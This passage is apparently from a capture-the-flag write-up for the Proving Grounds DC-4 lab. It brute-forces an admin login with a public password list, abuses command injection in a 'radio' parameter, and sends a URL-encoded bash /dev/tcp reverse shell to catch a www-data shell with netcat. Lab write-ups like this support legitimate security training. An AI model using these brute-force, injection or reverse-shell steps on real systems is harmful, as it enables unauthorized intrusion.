 Paste the Seclists Top 10,000 passwords listto the Payload Settings.

[SecLists Top 10,000 Passwords Raw](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)

Start the attack until we see the attempt with 'happy' result in a unique response header length.

![happy](../../../assets/images/ctfs/proving_grounds/dc_4/happy.png)

Once we stop the attack we can see we are logged on to the attack machine web site admin console.

![login](../../../assets/images/ctfs/proving_grounds/dc_4/login.png)

We have the ability to run commands from the _command.php_ page.

![command](../../../assets/images/ctfs/proving_grounds/dc_4/command.png)

If we send the request to Repeater and alter the _radio_ parameter to run the command _id_ we can see we have RCE.

![radio](../../../assets/images/ctfs/proving_grounds/dc_4/rad.png)

# Exploitation

---

Use _revshellgen_ to generate a bash reverse shell one-liner and URL encode

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-4]
└─$ urlencodebash "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1"
urlencodebash: command not found

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-4]
└─$ urlencode "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1"
bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261

```

Send the payload using Repeater and get a reverse shell.

![burp](../../../assets/images/ctfs/proving_grounds/dc_4/burp.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-4]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.226.195] 55084
bash: cannot set terminal process group (535): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dc-4:/usr/share/nginx/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-4:/usr/share/nginx/html$

```
